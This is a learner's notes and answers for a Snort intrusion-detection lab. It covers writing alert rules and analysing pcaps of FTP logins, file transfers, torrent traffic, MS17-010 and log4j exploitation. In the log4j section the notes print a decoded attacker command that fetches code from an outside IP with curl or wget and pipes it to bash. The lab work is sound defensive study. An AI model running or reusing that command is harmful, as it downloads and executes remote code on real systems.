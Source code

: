 ## snortchallenges1.md
unfinished 2022/04

### Task2
1. `detect all TCP port 80`
   * alert tcp any 80 <> any any (msg: "TCP Port 80";sid:1000001;rev:1;)
   * alert tcp any any <> any 80 (msg: "TCP Port 80";sid:1000002;rev:1;)
   * -> 328
2. `destination address of packet 63`
   * write alerts file with '-A fast', grep file line numbers 'cat -n' and grep for line '63'
   * -> 145.254.160.237
3. `ACK number of packet 64?`
   * work around from above no longer works as we more info using '-A full'
   * ACK numbers tend to get reused, so I just tried a few
   * -> 0x38AFFFF3
4. `SEQ number of packet 62?`
   * -> 0x38AFFFF3
5. `TTL of packet 65`
   * -> 128
6. `soure IP of packet 65`
   * -> 145.254.160.237
7. `soure port of packet 65`
   * -> 3372

### Task3
1. `detect all TCP port 21`
   * alert tcp any 21 <> any any (msg: "TCP Port 21";sid:1000001;rev:1;)
   * alert tcp any any <> any 21 (msg: "TCP Port 21";sid:1000002;rev:1;)
   * -> 614
2. `ftp service name`
   * didnt find a nice filter, so 'sudo snort -X -v -r ftp-png-gif.pcap > fulldump'
   * cat fulldump \| grep 220
   * -> microsoft ftp service
3. `number of failed ftp logins`
   * alert tcp any any <> any any (msg: "Failed login FTP"; content:"530 "; sid:1000004;rev:1;)
   * -> 41
4. `number of successful ftp logins`
   * alert tcp any any <> any any (msg: "Login FTP"; content:"230 User"; sid:1000005;rev:1;)
   * -> 1
5. `number of failed logins with valid user`
   * alert tcp any any <> any any (msg: "User ok, need pass"; content:"331 Password"; sid:1000006;rev:1;)
   * -> 42
6. `number of failed logins with user Administrator`
   * alert tcp any any <> any any (msg: "User Admin, need pass"; content:"331 Password required for Administrator"; sid:1000007;rev:1;)
   * -> 7

### Task 4
1. `detect PNG files and find embedded software`
   * alert tcp any any <> any any (msg: "PNG File"; content: "PNG"; sid: 100001; rev:1;)
   * run snort with -d -e -v do get full package data: sudo snort -c local.rules -A full -d -e -v -l . -K ASCII -r ftp-png-gif.pcap 
   * -> Adobe ImageReady
2. `detect GIF file and find image format`
   * alert tcp any any <> any any (msg: "GIF File"; content: "GIF"; sid: 100002; rev:1;)
   * again run with -d -e -v, one of the logs will show the magic bytes for GIF
   * -> GIF89a

### Task 5
1. `detect torrent meta file`
   * alert tcp any any <> any any (msg: "torrent File"; content: ".torrent"; sid: 100001; rev:1;)
   * -> 2
2. `name of the torrent application`
   * run rule from 5.1. with -d -e -v, one of the logs will have application/x- header
   * -> bittorent
3. `MIME type of torrent file`
   * run rule from 5.1. with -d -e -v, the data we used in 2 is the MIME type
   * -> application/x-bittorrent
4. `hostname of the torrent metafile`
   * run rule from 5.1. with -d -e -v, look for 'Host:'
   * -> tracker2.torrentbox.com

### Task 6 - fix issues with local-X.rules files
1. missing space between last 'any' and '('
   * -> 16
2. 'port value missing in rule', must be 'icmp any any' instead of 'icmp any'
   * -> 68
3. double sid
   * -> 87
4. missing ';' after msg and double sid
   * -> 90
5. rule direction '<-' not allowed, missing ';' after msg and 'sid;' instead of 'sid:'
   * -> 155
6. missing 'nocase;' after content
   * -> 2
7. rule is looking for '.html', but is missing a message block
   * -> msg

### Task 7
1. `number of detected packets with given ruleset`
   * -> just run sudo snort -c local.rules -r ms-17-010.pcap
   * -> 25154
2. `number of packets with \IPC$`
   * alert tcp any any -> any any (msg: "IPC Detected!"; content: "\\IPC$";sid: 20244225; rev:3;)
   * -> 12
3. `request path`
   * sudo snort -c local-1.rules -A full -dev -l . -K ASCII -r ms-17-010.pcap
   * cat * \| grep \\\\\\\\ -A 2
   * -> \\\\192.168.116.138\IPC$
4. `CVSS v2 score of MS17-010 `
   * https://nvd.nist.gov/vuln/detail/cve-2017-0144
   * -> 9.3

### Task 8
1. `number of detected packets with given ruleset`
   * just run sudo snort -c local.rules -r log4j.pcap
   * -> 26
2. `number of rules triggered`
   * all used sids are 8 digits, thus we can just cat, grep, sort
   * cat alert \| egrep -o '\\[1\\:[0-9]{8}\\:1\\]' \| sort \| uniq
   * -> 4
3. `first 6 digits of triggered rules`
   * use command from 8.2.
   * -> 210037
4. `write rule to filter payload between 770 and 855 bytes`
   * alert tcp any any -> any any (msg:"Size 770-855b"; dsize: 770<>855;sid:1000001; rev:1;)
   * -> 41
5. `encoding algorithm used`
   * if you cat all ASCII logs you will find utf-8 which is wrong, but also /Basic/Command/Base64/KGN1cmwgLX... which looks base64
   * it also makes sense in the context of log4j. As in which encoding was used to hide the payload when exploiting log4j
   * -> base64
6. `IP ID of the corresponding packet`
   * on the package you found in 8.5 scroll up and look for 'ID=' in the TCP header
7. `attackers command`
   * copy the base64 string, remove the hex representation if needed and convert using your favorite tool (e.g. cyberchef)
   * KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=
   * -> (curl -s 45.155.205.233:5874/162.0.228.253:80\|\|wget -q -O- 45.155.205.233:5874/162.0.228.253:80)\|bash
8. `CVSS v2 score of log4j`
   * https://nvd.nist.gov/vuln/detail/CVE-2021-44228
   * -> 9.3
